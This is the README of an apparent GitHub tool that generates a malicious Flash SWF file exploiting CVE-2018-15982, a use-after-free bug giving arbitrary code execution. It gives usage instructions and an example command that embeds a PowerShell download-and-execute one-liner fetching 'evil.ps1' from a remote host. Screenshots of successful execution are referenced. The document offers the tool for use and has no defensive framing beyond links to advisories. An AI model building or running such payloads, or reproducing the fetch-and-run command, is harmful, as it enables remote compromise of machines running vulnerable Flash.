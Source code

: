 # Adobe Flash CVE-2018-15982

Script to dynamically create a swf payload for CVE-2018-15982.

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.

* https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  


## Example


Command to download a file:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/cmd.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

Confirming successful execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec-confirm.png)
